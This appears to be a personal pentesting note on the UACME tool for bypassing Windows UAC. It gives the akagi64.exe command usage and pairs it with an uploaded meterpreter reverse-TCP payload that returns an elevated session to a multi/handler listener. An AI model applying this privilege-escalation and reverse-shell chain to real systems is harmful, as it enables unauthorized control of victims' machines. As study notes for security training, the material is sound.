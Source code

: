 ### **<mark style="background: #D2B3FFA6;">:LiGithub:</mark> https://github.com/hfiref0x/UACME**
### **<mark style="background: #e74c3c;">:LiYoutube: </mark> https://youtu.be/iOEaKEb9lOE**

- ***Admin account with UAC set on default settings required.***

## **Usage:**

> You need to compile manually if it is not compiled in your system
> 
> Then upload it and also upload a meterpreter reverse tcp
> 
> then :
> 
> **Usage :** **`.\akagi64.exe <method> <parameter>`**
> 
> **method is the method number listed in the repo**
> 
> **parameter is a file to execute which is in our case meterpreter reverse shell**   - can be empty which will execute elevated cmd.exe from system32 folder.

- To execute our payload with admin privileges: `.\Akagi64.exe <method#> C:\Temp\payload.exe`
- Then we will get a session in our listener `multi/handler` Module.

![[Pasted image 20250410153800.png]]